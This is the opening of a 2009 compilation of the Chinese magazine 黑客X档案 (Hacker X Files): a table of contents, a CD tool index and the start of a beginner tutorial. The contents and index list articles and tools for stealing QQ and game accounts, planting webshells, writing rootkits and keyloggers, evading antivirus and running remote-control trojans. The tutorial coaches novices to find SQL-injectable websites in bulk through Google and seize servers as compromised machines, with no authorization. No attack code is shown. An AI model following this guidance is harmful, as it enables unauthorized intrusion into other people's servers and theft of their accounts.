# 黑客X档案合订本2009年（下）第一部分

---

## 《黑客X档案》畅销系列丛书 菜鸟Hacker进化最佳教程

## 2009《黑客X档案》合订本（下卷）

WWW.HACKERXFILES.NET  WWW.HACKERXFILES.NET

### 经典漏洞回顾

- IIS WEBDAV认证绕过漏洞详细利用
- 跟我学Discuz! 7.0又一全WebShell方法
- 帝国CMS系统最新注入漏洞来入侵
- DEDECMS 5.5最新0DAY漏洞批量拿SHELL
- 菜鸟玩转ECShop网店系统新0DAY
- 使用IIS的0DAY漏洞击溃DVbbs 8.2
- PHP168整站系统V6权限提升漏洞简单利用
- DedeCMS最新漏洞三步来拿WebShell
- 又见插马——新云网吧漏洞简单利用
- 巧用EwebEditor的图片上传拿WebShell

### 主题乐园

- 菜鸟Linux学习初步
- 经典黑客工具之NESSUS
- 黑客游戏之Hacker Evolution Untold
- 由PE结构浅谈免杀技术
- 小菜之CAIN下的嗅探

### X菜鸟学堂

- 黑客兵器谱之菜鸟必须掌握的注入工具
- 黑客兵器谱之注入攻击大接触
- 黑客兵器谱之WebShell大检阅（上）
- 黑客兵器谱之WebShell大检阅（下）
- 黑客兵器谱之提权步步高
- 黑客兵器谱之WebShell深入利用

### 精彩内容一览

- 开心网我也用外挂
- 玩转黑客网页游戏hackthissite
- 脚本漏洞挖掘速成篇
- 批量Dig私服的WebShell
- QQ农场的“黑手”
- 巧用漏洞入侵志月企业网站管理系统
- 社工之入侵的艺术
- 学车位引发的血案
- 做自己的工具，盗MM的QQ
- 神奇的IDA——IDA使用教程初级篇



## 黑客X档案2009合订本

### 下卷




## 《黑客X档案》2009年合订本（下卷）

出品人：孙胜利  
主编：杨冬柱  
编辑部：sagi/呆呆虫/虫虫/咖啡  
　　　战神MARS/黄色潜水艇/笨牛牛  
特约编辑：ww0830/hackest/txcbg  
　　　　姜超/孟方明/Talent Feng  
光盘部：丛林  
设计：阮全勇  
排版：QuanLu  
发行部总监：湛颖  
联系电话：010-88561473  
发行部经理：赵琦  
联系电话：010-88561472  
联系电话：010-88560080  
E-Mail：hackerxfiles@263.net  
定价：人民币32.00元（光盘+手册）

> **声明**：刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含了授权相关资费。如有相关问题，请作者及时与我们联系。


## CONTENT


### 菜鸟学堂

- 2009.07 黑客兵器谱之菜鸟必须掌握的注入工具 ...................................... 9
- 2009.08 黑客兵器谱之注入攻击大接触 ............................................ 16
- 2009.09 黑客兵器谱之WebShell大检阅（上） ........................................ 24
- 2009.10 黑客兵器谱之WebShell大检阅（下） ........................................ 31
- 2009.10 会员功能免费用 ........................................................ 38
- 2009.11 黑客兵器谱之提权步步高 ................................................ 39
- 2009.12 黑客兵器谱之WEBSHELL深入利用 ........................................... 46

## QQ宝典

- 2009.07 不用键盘记录也盗QQ .................................................... 53
- 2009.07 在QQ空间用Flash“钓鱼”获取QQ密码 ..................................... 54
- 2009.07 09年最新QQ密码破解利器 ................................................ 56
- 2009.08 手机QQ2008，无需密码也登录 ............................................ 57
- 2009.08 玩酷之让你的图片加上QZONE水印 ......................................... 58
- 2009.09 详解本地“盗”QQ ...................................................... 59
- 2009.09 腾讯BUG助我另类盗Q ..................................................... 61
- 2009.09 破解QQ空间加密相册大全 ................................................ 62
- 2009.10 揭开QQ炫舞判断非法的秘密 .............................................. 63
- 2009.10 破解QQ旋风2的连接限制 ................................................. 65
- 2009.10 腾讯BUG——非QQ VIP也来加网盘密码 ........................................ 66
- 2009.11 释放双手，为QQ农场找个农夫 ............................................ 67
- 2009.11 Junction实现QQ共享表情库 .............................................. 69
- 2009.11 免费Q-zone商城的挂件、播放器和皮肤 .................................... 70
- 2009.12 QQ游戏基地——玩的就是刷分 ............................................ 73
- 2009.12 小菜来解密QQ Hash ..................................................... 74
- 2009.12 不是黄钻QQ牧场也照样开 ................................................ 75
- 2009.12 利用Qqbot实现两QQ群之间的信息转发 ..................................... 76

### 网吧黑客

- 2009.07 管理员密码替换法决战Pubwin2007 ........................................ 78
- 2009.07 与网吧对抗到底 ........................................................ 80
- 2009.07 Pubwin2007破解+加钱+办会员+肉鸡一条龙 ................................. 82
- 2009.08 彻底摆脱老师的监控 .................................................... 83
- 2009.08 简单两招破解天寓电子教室系统 .......................................... 84
- 2009.08 E盾也来实现免费上网 ................................................... 85
- 2009.09 网吧会员也来盗 ........................................................ 87
- 2009.09 也来破解凌波多媒体教学系统 ............................................ 88
- 2009.09 丑陋的桌面发生的故事 .................................................. 89
- 2009.10 网络E卡通之不花钱也上网 ............................................... 91
- 2009.10 破解挂机锁免费上网之万象来帮忙 ........................................ 92
- 2009.10 破解蓝眼睛多媒体电子教室系统 .......................................... 93
- 2009.11 PUBWIN2007的全新玩法 .................................................. 94
- 2009.11 看我来破解极域电子教室 ................................................ 95
- 2009.11 轻松干掉方正电脑基教版 ................................................ 97
- 2009.12 秒杀万象2004和2008 .................................................... 99
- 2009.12 一招来搞定万象2004和Pubwin2007 ........................................ 99
- 2009.12 浅谈网吧安全防范 ...................................................... 100

## 目录

### 傻瓜黑客

- 2009.07 暴力宣传之让你的QQ空间流量猛增 ....................................... 104
- 2009.07 小菜也能用VPN隐藏IP ................................................. 105
- 2009.07 PSP3000破解全攻略 ................................................... 107
- 2009.07 另类破解精锐神秘文件夹 ............................................... 110
- 2009.07 又见社工之一个站长的故事 ............................................. 111
- 2009.07 一次考试引发的WPS血战 ............................................... 114
- 2009.07 不借助工具来保护VISTA下的个人隐私 ..................................... 115
- 2009.07 粘滞键后门创新之路 ................................................. 117
- 2009.07 注册汉字@XX.com形式的邮箱 ........................................... 121
- 2009.08 开心网我也用外挂 ................................................... 122
- 2009.08 XP下来安装64位的Windows 7 ........................................... 124
- 2009.08 轻松搞定失忆的U盘 ................................................. 125
- 2009.08 中国菜刀使用小记 ................................................... 127
- 2009.08 NDS游戏免费玩 ..................................................... 130
- 2009.08 “信使网络通”也玩内网上线 ........................................... 131
- 2009.08 让XP学会Vista的安全技能 ............................................. 132
- 2009.08 深度揭秘IE7桌面关联漏洞 ............................................. 135
- 2009.08 浅谈exe2bat的原理 ................................................... 137
- 2009.09 不用注册也能打的免费电话 ............................................. 138
- 2009.09 金山词霸BUG也来抓肉鸡 ............................................... 139
- 2009.09 局域网轻取开心网帐号和密码 ........................................... 140
- 2009.09 快速建立防删启动项 ................................................. 142
- 2009.09 突破360木马防火墙与云查杀 ........................................... 143
- 2009.09 光华杀毒软件的破解 ................................................. 145
- 2009.09 我的地盘我作主——浅谈Windows授权 ..................................... 146
- 2009.09 走出“溜达啦”的烦恼 ............................................... 149
- 2009.09 菜鸟也能为Windows 7打补丁 ........................................... 150
- 2009.10 小技巧过360安全卫士 ................................................. 151
- 2009.10 免费领取MSN送的卡巴2010半年激活码 ................................... 152
- 2009.10 刷站挂马两不误 ..................................................... 153
- 2009.10 540分钟电话“套餐”每月免费打 ....................................... 154
- 2009.10 下载工具中潜在的危险 ............................................... 155
- 2009.10 使用工具自动获取NOD32升级ID ......................................... 156
- 2009.10 一个路由器引发的血案 ............................................... 158
- 2009.10 轻松破解联通宽带业务盗接限制 ......................................... 159
- 2009.10 揭开“svchost——应用程序错误”之谜 ................................... 160
- 2009.10 Windows链接的妙用 ................................................. 161
- 2009.10 社工之入侵的艺术 ................................................... 163
- 2009.11 玩转黑客网页游戏hackthissite ....................................... 166
- 2009.11 危险的校内人气之星 ................................................. 167
- 2009.11 QQ农场的“黑手” ................................................... 168
- 2009.11 变态验证码之Z-Blog ................................................. 171
- 2009.11 校园“免费”来上网 ................................................. 171
- 2009.11 破解Windows 7连连看 ............................................... 173
- 2009.11 VPN代理服务器，你知多少？ ............................................ 175
- 2009.12 简单注入引发的大批量EMAIL沦陷 ........................................ 178
- 2009.12 让金山毒霸也变成免费 ............................................... 179
- 2009.12 “#%”型特殊符号数据库通用下载法 ..................................... 180
- 2009.12 计算机3级，让你信手拈来 ............................................. 181
- 2009.12 是谁出卖了你？ ..................................................... 183
- 2009.12 快速破解网页加密 ................................................... 184
- 2009.12 提权之程序自启动 ................................................... 185

## 目录

- 2009.12 解除NOD32 4.0设置的密码 187
- 2009.12 没有客户端也照样使用非凡VPN 187

### 收马记

- 2009.07 凤凰涅槃，黑洞重生 190
- 2009.07 飞狐远程控制：小菜的又一选择 192
- 2009.08 小菜的新选择——牧羊人远控 194
- 2009.08 远程控制之又见小猪 196
- 2009.09 小菜使用手记之牧民远控 197
- 2009.09 绿色兵团也来专用远程控制程序 199
- 2009.10 绝非山寨木马的“大白鲨远控” 201
- 2009.10 无色无味的Xrat木马 203
- 2009.11 和我一起来体验超小的鸽子 205
- 2009.11 Update后门之反弹cmdshell 207
- 2009.12 用“第三只眼”来远程控制 209

### 毒龙

- 2009.08 一口吃掉“鬼脸嘟嘟” 211
- 2009.08 暴风流氓这样除！ 212
- 2009.10 遇上“神武”那家伙 213
- 2009.10 外挂中的暗箭 214
- 2009.11 小菜进阶之病毒剖析 216
- 2009.12 拯救小红伞之再现威金 219
- 2009.12 AVZ脚本辅助我们手工杀毒 221

## 侠隐仙踪

- 2009.08 黑色梦想 222
- 2009.09 遗珠记 224
- 2009.10 年少的往事 227

### 个人的战争

- 2009.07 帝国CMS系统最新注入漏洞来入侵 229
- 2009.07 菜鸟玩转ECShop网店系统新0DAY 232
- 2009.07 终偿所愿——曲折的入侵 234
- 2009.07 注入中的“绕” 238
- 2009.07 对某黑客蚊香网站的一次入侵 240
- 2009.07 秒杀94KK论坛并且快速拿SHELL 241
- 2009.07 和我一起来入侵易和阳光购物商城系统 243
- 2009.07 IIS WEBDAV认证绕过漏洞详细利用 245
- 2009.08 利用漏洞入侵步月企业网站管理系统 247
- 2009.08 巧用Ewebeditor的图片上传拿WebShell 248
- 2009.08 批量Dig私服的webshell 250
- 2009.08 入侵国外某一金融站点 251
- 2009.08 对学校图书馆的一次安全检测——重温mssql手工注入的精彩 254
- 2009.08 二顾某医学院 256
- 2009.08 一次意外的入侵 259
- 2009.08 另类的旁注 260
- 2009.08 一次“失败”的入侵渗透 262
- 2009.09 跟我学Discuz! 7.0又一拿WebShell方法 265
- 2009.09 PHP168整站系统v6权限提升漏洞简单利用 266
- 2009.09 旁门左道入侵某情感论坛 268
- 2009.09 菜鸟入侵记 270
- 2009.09 入侵学校动易网站 272
- 2009.09 友情检测CUBA官网 273
- 2009.09 浅谈一流信息监控拦截系统下的绕过大法 277
- 2009.09 记一次曲折的入侵 279
- 2009.10 DedeCMS最新漏洞三步来拿Webshell 281
- 2009.10 快速入侵科讯CMS 283
- 2009.10 使用IIS的0day漏洞击溃Dvbbs8.2 285
- 2009.10 我是如何拿下MD5查询网站 286
- 2009.10 对与错在那一瞬间 287
- 2009.10 一次PHP入侵+对BT服务器的提权 289
- 2009.10 黑盒白盒助我拿Webshell 292
- 2009.10 争车位引发的血案 295
- 2009.11 又见插马——新云问吧漏洞简单利用 298
- 2009.11 注入无戏照样进后台拿Webshell 299
- 2009.11 记一次曲折的入侵过程 301
- 2009.11 记我的一次提权经过 303
- 2009.11 入侵国家某保密局网站 306
- 2009.11 看我来渗透电信机房 307
- 2009.11 菜鸟入侵记 309
- 2009.11 Discuz7.0之“黑”吃“黑”的入侵 311
- 2009.12 DEDECMS5.5最新0DAY漏洞批量拿SHELL 312
- 2009.12 深度网址导航v3.0.4注入漏洞浅析 314
- 2009.12 W78CMS后台文件验证漏洞轻松拿Webshell 316
- 2009.12 IIS6.0解析漏洞来入侵黑客站点 319
- 2009.12 菜鸟的SA测试手记 321
- 2009.12 突破IP封锁进入学校服务器 322
- 2009.12 记一次曲折的入侵过程——直捣最高权限 326
- 2009.12 MySQL5注入初体验 327

### 安全第一

- 2009.07 出自卡巴斯基的杀毒利器——AVZ Antiviral Toolkit 330
- 2009.07 数据库防下载新招之“#%” 333
- 2009.08 可以重启的影子——ShadowUser 334
- 2009.09 浅谈php.ini安全设置 337
- 2009.10 木马，给你一个沙盘去折腾吧 339
- 2009.10 跨站Script攻击方式与防范 341
- 2009.10 利用Windows缺陷来做防下载 342
- 2009.11 免费杀毒软件，微软造 343
- 2009.12 无前缀数据库防下载方法的不可行性及防下载 345
- 2009.12 PHP安全面面观之脚本篇 346

### 黑客研究院

- 2009.07 从零开始学习脚本分析 350
- 2009.07 再谈无线WEP密钥破解 352
- 2009.08 三招两式解密最新的MPEG-2网马 355
- 2009.09 脚本漏洞挖掘连连看（一） 356
- 2009.09 在无线局域网中使用Cain进行嗅探 359
- 2009.10 浅谈NTFS数据流 360
- 2009.10 脚本漏洞挖掘连连看（二） 362
- 2009.11 剖析新云系统NewAsp CMS ask模块的0day 365
- 2009.11 脚本漏洞挖掘连连看（三） 366
- 2009.12 脚本漏洞挖掘连连看（四） 369
- 2009.12 挖掘整站系统的cookie验证漏洞 372

### UNIX黑客行

- 2009.07 Linux黑客入门——教小菜使用TCPDUMP 375
- 2009.08 在Linux下使用虚拟机 378
- 2009.09 在Linux平台下利用彩虹表破解Windows密码 383
- 2009.10 UNIX/Linux的密码机制及密码破解 388
- 2009.11 Linux深入加密之文件加密 391
- 2009.12 小菜的Linux学习总结 394

### 神秘园

- 2009.07 PE文件的优化 398
- 2009.07 菜菜学破解之疯狂爆破 399
- 2009.07 让附加数据在杀毒软件前闭嘴 402
- 2009.08 留住免费——破解武林英雄机器人 404
- 2009.08 菜菜学破解之扫掉爆破路上的拦路虎 405
- 2009.08 另类过诺顿查杀“KERNEL32.DLL” 408
- 2009.09 破解外挂系列No.2之精灵追杀令 410
- 2009.09 小菜算法初体验 412
- 2009.09 打造完美花指令——浅谈花指令平衡原理 413
- 2009.10 突破体验试用版软件的重重限制——破解中的“提权” 414
- 2009.10 跟我学修改冒险岛资源 417
- 2009.10 输入法免杀与免杀补丁 418
- 2009.11 跟Eddy学习如何去除软件的流氓行为 420
- 2009.11 再谈VB类软件的破解 422
- 2009.11 木马免杀的两个小技巧 425
- 2009.12 神奇的IDA——IDA使用教程初级篇 426

### 黑客编程

- 2009.07 菜鸟也来编写Rootkit 430
- 2009.07 VB木马编程之多客户端上线 433
- 2009.08 做自己的工具，盗MM的QQ 435
- 2009.08 反弹木马编写之键盘记录（上） 436
- 2009.09 菜鸟也来编写rootkit之进程隐藏 439
- 2009.09 .NET环境下的新技术——初探asmx木马 441
- 2009.10 QQ加密空间相册随意破 443
- 2009.11 VB来打造自己的DNF盗号软件 445
- 2009.12 揭秘外挂开发全过程 450
- 2009.12 反弹木马编写之无DLL也来实现键盘记录 452

### 主题乐园

- 2009.07 菜鸟Linux学习初起步 455
- 2009.08 经典黑客工具之NESSUS 461
- 2009.09 黑客游戏之Hacker Evolution Untold 464
- 2009.11 由PE结构浅谈免杀技术 469
- 2009.12 小菜之CAIN下的嗅探 477

## 光盘索引

- **antiarp防火墙**：拦截外部ARP攻击。在系统内核层拦截接收到的虚假ARP数据包，保障本机ARP缓存表的正确性。拦截对外ARP攻击。在系统内核层拦截本机对外的ARP攻击数据包，避免本机感染ARP病毒后成为攻击源。  
- **QQ BOT**：比如你加入了两个QQ群，群A和群B。这两个群的人数上限都是100人，为了使这两个群中的会员可以相互交流，那我们就需要通过一个手段把这两个群桥接起来，实现两个群间信息可以共享、相互交流。  
- **173VPN登录器**：173VPN是一款真正免费的全球互联网加速器软件，提供国内用户免费使用加速服务，国际用户免费限制使用。  
- **QQ牧场开通工具**：QQ牧场开通工具绝对可用！只是每天内测名额有限，大家在12点后争取时间（至中午12点左右即可，只有名额到了才会说已开通，第二天又有名额的），都可开通的。  
- **第三只眼远程控制**：第三只眼远程控制是一款致力于企业级计算管理和个人计算机远程管理的软件。精简代码编译，功能强大，界面美观，让你在任何地方都能随心管理主机。  
- **NetWrix Services Monitor**：这个应用程序让你探查任何TCP端口，做出一定的关键性服务监测，诸如域名服务、FTP服务器、BootP服务器、邮件服务器和Web服务器是否响应。也允许URL监测，确认它们包含某个文本或者返回的大小超过一个被标示的大小。  
- **Jsky**：网站安全综合检测工具。ESET ID自动获取填写工具：本工具运行时先验证电脑里ESET的ID（支持所有版本，包括4.0），无效就自动申请ID，验证后写入注册表。内置数条线路，如要自定义升级ID网址，可在软件相同目录或C盘根目录创建list.txt这个文本文件，加入你的升级ID网址，本工具会优先读取。  
- **zxarps.exe**：基于ARP欺骗的工具，可网页插马、DNS欺骗、自定义关键字。  
- **COMODO Firewall Pro防火墙**：Comodo Firewall Pro是一款功能强大、高效且容易使用的防火墙，提供了针对网络和个人用户的高级别保护，从而阻挡黑客进入和防止个人资料泄露。  
- **360安全卫士系统时间防改工具**：可以保护系统时间不被恶意软件篡改！该软件经过测试，可以在Windows 2000/XP/2003/Vista的所有版本上正常运行。Sandboxie：Sandboxie允许你在沙盘环境中运行浏览器或其他程序，因此运行所产生的变化可以随后删除。  
- **john the ripper 1.7.3.1**：是一个快速的密码破解工具，用于在已知密文的情况下尝试破解出明文的密码破解软件，支持目前大多数的加密算法，如DES、MD4、MD5等。  
- **超级巡警脱壳机**：本工具完全基于虚拟机技术，对各种已知未知壳进行脱壳处理，适合病毒分析中对加壳的木马样本进行脱壳处理。  
- **Cheat Engine 5.5**：是一款内存修改编辑工具，它允许你修改你的游戏，所以你将总是赢。它包括16进制编辑、反汇编程序、内存查找工具。与同类修改工具相比，它具有强大的反汇编功能，且自身附带了外挂制作工具，可以用它直接生成外挂。  
- **开心网花园外挂**：可以做到开心网花园自动垦地、播种、浇水、除草、除虫、收获，开心网花园自动照顾爱心地。  
- **U盘超级加密2008**：专业的U盘和移动硬盘加密软件。如果你的U盘和移动硬盘需要在不同的机器上使用，但你为里面数据的安全和保密烦心的话，请使用《U盘超级加密2008》。  
- **牧羊人远程控制软件**：牧羊人远程控制软件内核是gh0st，其中主界面设计参考了PcShare代码，Unicode开发参考ByShell代码，上线设置设计中参考了灰鸽子代码。  
- **No$gba 2.6a**：No$gba是目前最好的NDS模拟器。它已经能完美模拟如口袋妖怪、恶魔城、最终幻想等大量游戏，支持WIFI和触摸屏（鼠标点击）。  
- **VirtualBox**：VirtualBox是德国一家软件公司InnoTek所开发的虚拟系统软件，它不仅具有丰富的特色，而且性能也很优异，更是开源的，成为了一个发布在GPL许可之下的自由软件。  
- **myZoom v1.8.24**：非常好的NO$GBA屏幕放大工具，占系统资源很少。使用Delphi 2009进行开发和编译，完全Unicode化。  
- **KaiXin001 Master**：修正由于开心网系统消息页面修改导致的（各种方式）互加好友、验证好友添加请求等问题，针对部分牧场果实可以以低于6级花园等级赠送，取消花园等级判断，能够以任意等级赠送果实。  
- **Restorator**：一个非常好的汉化工具，对DELPHI和C程序的支持尤为突出。它的功能很强大，除了一般的编辑操作外，可以采用拖放操作来完成资源的导入导出，可以批量修改资源的语系，还可以利用“资源补丁”创建不受版权限制的补丁程序！  
- **飞狐远程控制测试版本**：目前可以完成远程的进程管理、文件管理、服务管理、视频监控、桌面监控、远程关闭计算机、打开网站和下载执行等功能。  
- **QQ限空间大王**：通过高速自动访问亿万QQ用户空间，达到返回自己空间效果功能。  
- **隐身专家 3.32**：使用隐身专家，按下鼠标中键隐藏桌面上所有窗口，隐身专家还可以隐藏托盘图标。  
- **注入串生成器**：程序的使用很简单，只需要填入存在注入的URL地址及存在注入的键值名（需要登录的还要输入COOKIE值），然后根据存在注入点的类型选择生成方式就行了，生成的文件是jmGet.asp、jmPost.asp、jmCook.asp。对于填入的URL地址及注入的键名，需要用WSOCK抓注入页面的包，然后根据抓到的数据进行填写。  
- **AVZ Antiviral Toolkit**：此软件功能强大，AVZ可以清除以下类型的恶意程序：间谍软件与广告软件（这是AVZ的首要任务）、恶意拨号程序、特洛伊木马程序、后门程序、网络与电子邮件蠕虫、下载者等等。  
- **网吧精灵3.5**：对那些有限制的网吧是必备利器，对那些好心的没有限制的网吧那就如虎添翼了。Pangolin：Pangolin是一款Windows平台下的自动化SQL注入渗透测试工具。它实现了从检测到利用完成一体化的渗透攻击动作，尽可能地将SQL注入攻击效果最大化。  

## 黑客兵器谱之菜鸟必须掌握的注入工具

txcbg

相信许多菜鸟都还是学生吧，幸福的暑假马上就要来临了，是不是很想利用这个漫长的假期学习一些基础、入门的黑客技术呢？在前几期的菜鸟学堂中，我主要介绍了扫描工具的使用和局域网的攻防，可小菜们还是看着不过瘾，早就嚷着要学习关于网站的入侵了，因为他们认为，能够入侵网站，那才算是一名真正的黑客。唉，真拿他们没办法，既然如此，那么本节课开始我就详细介绍网站的入侵方法，带领大家使用一些注入工具轻轻松松地获取自己人生中的第一台服务器肉鸡！

“大家好，我是你们敬爱的txcbg老师，在暑假的第一堂课中，我给小菜们准备的内容是介绍网站入侵中最常用到的几款注入工具。”

“老师，注入工具都有什么用呀？”

“顾名思义，注入工具就是利用网站的注入漏洞进行入侵的工具。利用这些操作傻瓜化的注入工具，一个从没有入侵过网站的小菜也可以轻松搞定网站，如果运气好的话，还能拿下网站所在的服务器，也就是通常所说的抓到服务器肉鸡。”

一听可以抓到服务器肉鸡，台下的小菜顿时来了精神，纷纷坐直了身子，开始认真听讲。

“网站渗透（入侵网站）的方法有很多种，对于没什么基础的菜鸟来说，通过SQL注入漏洞来入侵网站是个不错的选择，既不需要什么前置知识，又可以快速体验到入侵网站的乐趣。随着B/S模式应用的发展，使用这种模式编写的应用程序也是越来越多，但是由于程序员的水平及经验参差不齐，相当一部分程序员在编写代码的时候，没有对用户输入数据的合法性进行判断，就使得应用程序存在了安全隐患。用户可以提交一段数据库查询代码，然后根据程序返回的结果来获得某些他想得知的数据，这就是所谓的SQL Injection，即SQL注入。”

SQL注入攻击又分为工具注入和手工注入两种。使用工具进行注入在操作上非常简单、速度快，非常适合新手使用；而手工注入则比较麻烦，但灵活性更强，在使用注入工具无效的情况下就只能使用手工注入了。不过这需要掌握一些手工注入的相关知识和一些注入命令，适合有一定技术基础的菜鸟使用。考虑到在菜鸟学堂上课的小菜大多都是初学者，因此我们主要介绍工具注入。

### 一、批量寻找注入点的啊D

要想进行注入攻击，首先就要寻找注入点。注入点就是存在漏洞、可以进行注入攻击的一个链接地址，比如 http://www.xxx.com/news.asp?id=123。那有没有能够快速找到网站注入点的工具？有，那就是啊D注入工具。啊D在批量寻找注入点方面，我认为是目前所有注入工具中做得最好的。

这里就以啊D注入工具2.0破解修正版为例来进行介绍。双击运行软件，就会出来一个用户登录界面，如图1。由于是破解版，我们直接点“登录”按钮就可以打开软件的主界面——“SQL注入检测”功能模块了，如图2。

我们如何来批量寻找注入点呢？点击软件左侧的“扫描注入点”，就会打开如图3所示的批量寻找注入点界面。它分为两个部分：右上方很大的那一部分相当于一个浏览器，右下方一小部分显示找到的注入点。在“检测网址”栏输入www.google.com，然后点“打开”按钮就会打开Google的搜索界面。为了更好地寻找注入点，我们需要对Google进行一下设置，点“高级搜索”来到设置的地方。Google默认情况下每页只显示10个搜索结果，为了能在更多的结果中寻找注入点，这里可以把它设置成每页显示100项结果，图4。



